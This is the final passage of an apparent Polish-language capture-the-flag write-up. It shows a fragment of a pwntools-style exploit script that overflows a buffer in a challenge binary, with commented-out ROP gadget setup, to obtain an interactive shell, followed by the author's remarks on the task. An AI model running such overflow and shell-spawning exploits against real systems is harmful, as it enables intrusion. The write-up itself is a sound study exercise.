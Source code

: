 ```py
#pop_rax,pop_rdi,pop_rsi,syscall,binsh=set_libc_adresses (libc) #doesn't work!!!

ID=enter_name(b'\x00') #to ID=zero
info (f"ID: {ID}")

generate_numbers_0 ()   #set first conditional to zero

ID=enter_name(b"\xd3"*41) #to BO generate_numbers
info (f"ID: {ID}")
ID=enter_name(b"\xd3"*41) #to 0
info (f"ID: {ID}")

#brva 0x1407 #troche
# gdb.attach(p, '''
# brva 0x151c
# ''')
# pause (3)

set_payload ()
p.interactive()
```
## Summary
Flagę pominę, bo możecie ją sami odtworzyć. Co do zadania – było ono jednocześnie męczące, frustrujące i... satysfakcjonujące. To na pewno nie było easy. Gdy w końcu zdobyłem flagę, polubiłem to zadanie. Wcześniej go nienawidziłem. To nie było szczęśliwe zadanie ;)
{: .text-justify}


